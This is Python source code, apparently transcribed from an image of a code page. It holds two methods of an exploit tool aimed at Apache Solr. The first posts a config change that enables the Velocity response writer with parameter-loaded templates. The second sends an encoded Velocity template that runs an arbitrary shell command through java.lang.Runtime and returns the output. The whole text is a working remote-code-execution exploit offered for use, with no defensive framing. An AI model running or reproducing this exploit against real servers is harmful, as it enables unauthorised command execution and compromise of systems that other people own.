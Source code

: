         def init_node_config(self):
            url = self.url + '/config'
            payload = {
                'update-queryresponsewriter': {
                    'startup': 'lazy',
                    'name': 'velocity',
                    'class': 'solr.VelocityResponseWriter',
                    'template.base.dir': '',
                    'solrresource.loader.enabled': 'true',
                    'paramsresource.loader.enabled': 'true'
                }
            }
            try:
                res = requests.post(url=url, data=json.dumps(payload), timeout=5)
                if res.status_code == 200:
                    return {
                        'init': 'Init node config successfully',
                        'state': 1
                    }
                else:
                    return {
                        'init': 'Init node config failed',
                        'state': 0
                    }
            except:
                return {
                    'init': 'Init node config failed',
                    'state': 0
                }

        def rce(self):
            url = self.url + ("/select?q=1&&wt=velocity&v.template=custom&v.template.custom="
                              "%23set($x=%27%27)+"
                              "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                              "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                              "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                              "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                              "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                              "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
            try:
                res = requests.get(url=url, timeout=5)
                if res.status_code == 200:
                    try:
                        if res.json()['responseHeader']['status'] == '0':
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                        else:
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                    except:
                        return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE failed @Apache Solr node %s\n' % self.node
